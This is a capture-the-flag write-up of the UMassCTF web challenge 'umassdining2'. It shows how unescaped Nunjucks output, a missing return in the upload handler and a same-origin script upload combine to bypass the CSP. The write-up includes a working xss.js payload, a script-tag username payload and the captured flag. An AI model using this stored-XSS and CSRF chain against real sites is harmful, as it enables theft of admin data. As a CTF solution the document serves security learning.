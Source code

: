 # umassdining2 [477 points]

### Description
```
The much awaited sql to the UMass Dining experience. We're back and better than ever, join our super fan contest for a chance to be crowned "The UMassDining Enjoyer"

umassdining2.zip

Author: Ayman#5138

http://umassdining2.web.ctf.umasscybersec.org:6942/
```

The flag is in `/admin_dashboard/`, we need to signed in as admin and the request has to come from localhost, in order for it to render the template with the flag 

There is a `getSub()` in `admin.js` acting as the admin bot

When we are posting to `/submit` it will call `getSub()` to have the admin bot check our uploaded image in `/admin_dashboard`

```js
router.post('/submit',middleware.authReq,(req,res)=>{
    if(!req.user){return res.status(403).send('Unauthorized action!')}
    let file = req.files.submission;
    if(path.extname(file.name)!=='.png'){
        res.status(400).send("Invalid file type. Expected \".png\"")
    }

    let dir = crypto.createHash('md5').update(req.user).digest('hex');
    if(!fs.existsSync(`uploads/${dir}`)){
        fs.mkdirSync(`uploads/${dir}`);
    }
    fs.writeFileSync(`uploads/${dir}/${file.name}`,file.data);

    getSub(req.user,file.name);
    res.send("Admin is gonna check this out.");
})
```

The admin page template shows the flag, username and the file name of the uploaded file

```html
<div style="text-align: center">
    <h2>
    Welcome Admin.
    </h2> 
    <secret>{{flag}}</secret>
    Here is the submission from {{user | safe}}:

    <img src="uploads/{{upload | safe}}">

</div>
```

Although in `app.js` it enabled autoescape :
```js
nunjucks.configure('views',{
    autoescape: true,
    express: app
});
```
The user and upload disabled autoescape, which make them vulnerable to XSS
https://stackoverflow.com/questions/29866034/stop-nunjucks-from-escaping-html

However `admin.html` is using `header.html`, which has implemented CSP
```html

  <meta
  http-equiv="Content-Security-Policy"
  content="default-src 'self';" />
```

We can bypass that by putting the javascript code into a file and upload it to the server, and register a username with the script tag and loading the javascript file for XSS

We can use `/submit` to upload the file :
```js
router.post('/submit',middleware.authReq,(req,res)=>{
    if(!req.user){return res.status(403).send('Unauthorized action!')}
    let file = req.files.submission;
    if(path.extname(file.name)!=='.png'){
        res.status(400).send("Invalid file type. Expected \".png\"")
    }

    let dir = crypto.createHash('md5').update(req.user).digest('hex');
    if(!fs.existsSync(`uploads/${dir}`)){
        fs.mkdirSync(`uploads/${dir}`);
    }
    fs.writeFileSync(`uploads/${dir}/${file.name}`,file.data);

    getSub(req.user,file.name);
    res.send("Admin is gonna check this out.");
})
```

The directory will be md5 hash of the username, my username is `kaiziron`, so the directory for the uploaded files will be `/uploads/44df1efba5907b73744c75510d2ed15e/`

We can just upload a javascript file to the server with `/submit`, even it shows `Invalid file type`, by looking at the docker instance, we will know that the file still get uploaded to that directory

The file will still be written to `/upload/` because it is not returning in that line :
```js
    if(path.extname(file.name)!=='.png'){
        res.status(400).send("Invalid file type. Expected \".png\"")
    }
```

http://umassdining2.web.ctf.umasscybersec.org:6942/uploads/44df1efba5907b73744c75510d2ed15e/xss.js

xss.js :
```js
formData = new FormData();
file = new File([document.documentElement.innerHTML], "kaiziron_flag.txt", {type: "text/plain"});
formData.append("submission", file);
fetch('/submit', {method: "POST", body: formData});
```

Because of the CSP, we can't make request with the flag to a remote server, so we can do CSRF to `/submit` and submit the admin page content as a file on behalf of admin

Then we can register an username (`<script src="/uploads/44df1efba5907b73744c75510d2ed15e/xss.js"></script>`) that will do XSS to admin page by loading that javascript file 

```
user=<script+src%3d"/uploads/44df1efba5907b73744c75510d2ed15e/xss.js"></script>&pass=kaiziron
```

Then we can login to that user, and upload a file with `.png` as file extension, so admin will check it in `/admin_dashboard` and it will load our username which load the `xss.js` file from the same domain that does a CSRF on admin

It will upload the whole admin page content as a file `kaiziron_flag.txt` to `/submit` on behalf of admin

The uploaded file will be in the directory which is the md5 hash of admin : 
http://umassdining2.web.ctf.umasscybersec.org:6942/uploads/21232f297a57a5a743894a0e4a801fc3/kaiziron_flag.txt

```html
<head>
  <meta http-equiv="Content-Security-Policy" content="default-src 'self';">

  <link rel="stylesheet" href="/static/css/style.css">
  <title>UMass Dining Secret Society | THE SQL</title>
</head>

<body><nav class="navbar navbar-expand-lg navbar-dark bg-dark">
  <div class="container-fluid">
    <a class="navbar-brand" href="/">UMass Dining</a>
    <div class="collapse navbar-collapse" id="navbarColor02">
      <ul class="navbar-nav">
        <li class="nav-item">
          <a class="nav-link" href="/">Home</a>
        </li>
        <li class="nav-item">
          <a class="nav-link" href="/dashboard">Dashboard</a>
        </li>
        <li class="nav-item">
          <a class="nav-link" href="/register">Register</a>
        </li>
        <li class="nav-item">
          <a class="nav-link" href="/login">Login</a>
        </li>
      </ul>
    </div>
  </div>
</nav>




  <section class="content">
    
<div style="text-align: center">
    <h2>
    Welcome Admin.
    </h2> 
    <secret>UMASS{F0rg0t_T0_R3TuRn_4nd_l0st_mY_FL4g}</secret>
    Here is the submission from <script src="/uploads/44df1efba5907b73744c75510d2ed15e/xss.js"></script></div></section></body>
```

Then we can see the flag in that page :
```
UMASS{F0rg0t_T0_R3TuRn_4nd_l0st_mY_FL4g}
```